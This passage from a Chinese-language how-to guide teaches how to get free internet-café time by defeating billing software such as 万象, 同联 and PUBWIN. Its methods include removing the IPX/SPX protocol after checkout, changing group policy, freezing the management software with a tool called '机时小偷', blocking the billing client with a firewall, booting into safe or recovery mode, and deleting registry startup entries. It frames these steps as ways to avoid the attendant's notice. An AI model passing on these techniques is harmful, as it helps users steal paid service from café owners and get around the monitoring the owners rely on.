

图2.10



图2.11

再点“属性”，看到了吗？有个最长最长的协议，就是 NWLink IPX/SPX/NetBIOS 的那个，这是一个局域网协议。在你的万象客户端不要选择这一项，换句话说就是把这个协议给去掉，如图2.12。

再点“我上了多久”看看有没有提示，如果没有的话你就可以到主机那里去结账了。

倘若因为某些原因，无法打开“网络连接”的话，我们还有别的办法。在“运行”中输入“gpedit.msc”，如图2.13。



图2.12



图2.13

进入组策略设置，再点击“用户配置”下的“管理模板”，再点击“任务栏和「开始」菜单”，如图2.14。打开“任务栏和「开始」菜单”，把右面设置中的各项全部改为“已禁用”就可以了，如图2.15。



图2.14



图2.15

这时我们再点击左下角的“开始”->“设置”->“网络连接”，就可以打开了。打开“网络连接”后，选择最上方工具条中的“高级”->“高级设置”，在“高级设置”窗口里也会看到 NWLink IPX/SPX/NetBIOS 这个协议，如图2.16。计费软件使用的就是这个协议，把前面的勾去掉就可以了，然后去结账，主机那里不会有任何显示，更不会显示你掉线或断网，此法是我目前认为最安全的了。



图2.16

### 2.2 有工具免费上网

#### 2.2.1 “机时小偷”使你免费上网没商量

我们平时最常使用的免费上网方式就是在开机的时候，迅速按下“Ctrl+Alt+Del”键，然后终止网吧管理软件的进程。但是这种方式也引起了网吧管理软件开发商的注意，因此开发商们采用了不同的方式来保护软件的进程不被用户终止。比如采用线程插入技术、多进程技术等等，这样用户就很难再轻易地终止网吧管理软件的进程了。其实与其强攻，不如智取。下边，我们就来介绍一款名为“机时小偷”的工具，可以实现我们的免费上网的目的。

使用软件功能的基本流程是：设置一个合适的时间 ---> 电脑被网管软件锁住 ---> 软件自动运行子窗口 ---> 享受你的自由。



图2.17

##### 设置时间及功能

正确安装软件后，运行 Terminate.exe 启动软件，程序自动将时间设置为启动软件时的时间（如图2.17）。现在你就可以通过上下箭头调节时间了，把时间调节到你想要运行窗口的时间，然后在下面的功能选择框里选择一个功能。

运行窗口：运行一个窗口（突破网管软件限制），此项默认为选中，是这个软件的主要功能之一。

##### 子参数介绍

- **暴力破解**：如果在默认模式下无法实现上面所介绍流程，典型的问题是流程中的第二步跳出的窗口会一闪而过；
- **隐藏界面**：此项是将当前软件的界面隐藏掉；
- **终结程序**：使指定程序彻底崩溃，它不同于简单结束程序的进程。可用于一些顽固软件（结束进程后又自动运行），最典型的就是网管软件。
- **隐藏窗口**：将一个活动窗口隐藏，但被隐藏的窗口依然正常运行。
- **友情提醒**：弹出一个信息框，提示你下机，可以在“提示下机内容”里设置提示内容。
- **打开文件**：打开所指定的文件，注意该文件必须是 Windows 已经指定打开方式。
- **强行关机**：关闭计算机。

##### 注意

- 以上所有的功能均在你所设定的时间到达后实现！
- 当本软件用于破解网管软件时，请在设置完毕后，将本程序隐藏，否则将会影响破解的效果。设置完毕后，点击“确定”按钮完成设置。
- 网管软件锁住电脑：当确定设置没错后，你就可以让你的电脑被网管软件锁住了，然后就是结账下机。当结账下机后，你要守候着你的电脑，不要让它重新启动或关机。
- 窗口的自动运行：如果设置正确的话，当时钟走到你所预定的时间点，在锁定的屏幕中央会跳出一个窗口，如图2.18。

遇到网管软件在结账下机后会马上重新启动的情况，你就用冻结程序的办法来实现免费上网。大概过程就是，在你上网卡余额要用完的时候，运行“机时小偷”，设置一个较短的时间，并且选中“功能选择”中的“冻结程序”选项，然后将网管软件激活为当前窗口。这样，当网管软件被冻结后，你的目的就达到了。遇到网管软件在结账下机后不会重新启动的情况，除了用上面的方法外，还可以使用另一种方法简单实现免费上网。具体方法是设置一个恰当时间，选中“运行窗口”，然后将“隐藏界面”或“暴力破解”选中。现在你就可以结账下机了，等到我们设置的时间一到，就会看到锁定的电脑屏幕上会出现一个显示桌面图标的窗口，下面就是免费上网时间了。



#### 2.2.2 防火墙帮你免费上网



免费上网的办法是千变万化的，下边，我就来讲一讲如何利用防火墙来实现免费上网。我们以傲盾防火墙为例，使用其他的防火墙也可以达到同样的目的。

在让这个小巧可爱的防火墙变为我们免费上网的“帮凶”之前，我先来介绍一下网吧的情况：网吧的客户端基本上使用的都是 Windows XP SP2，网吧管理软件使用的是同联多级计费系统，版本为 1.007，如图2.19。

安装并运行傲盾防火墙，打开其设置主界面，直接找到“应用程序规则”，我们可以轻易地找到同联多级计费系统，如图2.20。我们在前边的“开关”项点击选择，然后双击，就会弹出一个程序设置界面，如图2.21。



图2.20



图2.21

将“发送数据设置”和“接受数据设置”的拦截设定都设置为“拦截”，“确定”就可以了。因为我们阻断了计费系统与服务端的连接，主机对我们发不了数据，发不出来命令，我们自然也就可以免费上网了！

### 2.3 菜鸟的免费上网心经

PUBWIN 也是一款使用比较广泛的网管软件了，网吧小黑自然也就少不了对它的研究。下面，我们就来简单地介绍一下 PUBWIN 的破解方法。小菜们可要注意看了。

#### 2.3.1 启动模式法

刚开始进行免费上网使用的是“启动模式法”，由于我所在的这家网吧没有屏蔽启动菜单，启动计算机，当看到屏幕底部出现 Windows 横条时，按 F8 键，就会出现 Windows 2000 高级选项菜单。此时，用上下键选择“安全模式”启动。这样，PUBWIN 就被绕过去了。不过，此时桌面会变为难看的黑屏幕，而且在屏幕的四个角上还有“安全模式”字样，很容易被网管发现。虽然现在可以免费上机了，但是电脑却很不好用，上 IE、登 QQ 都不行。既然这个“安全模式”不好用，尝试换一换其他的登录模式看看，经过测试发现“目录服务恢复模式（用于 Windows 2000 域控制器）”很好用。除了桌面为黑色外，其他的操作与正常上机均没有任何分别，现在，可以随心所欲地免费上网了。

一般的网管软件仅仅会绑定在正常的登录模式上，当你以系统默认的登录后，网管软件就会随着 Windows 的启动而启动。而其他的登录模式，如上面提到的“安全模式”“目录服务恢复模式（用于 Windows 2000 域控制器）”等，则因为只会加载一些系统最基本的文件和服务程序，其他的如网管软件都被拒之门外，我们就可以利用这一 bug 来轻松绕过网管软件的限制，免费上网。

#### 2.3.2 “注册表”法

第2个方法我称之为“注册表”法。破解的原理如下：由于 PUBWIN 是在进入系统后才启动的，它的启动项应该在注册表里面有，只要把它的启动项删除，然后退出它在内存中运行的程序，就可以摆脱程序的限制了。

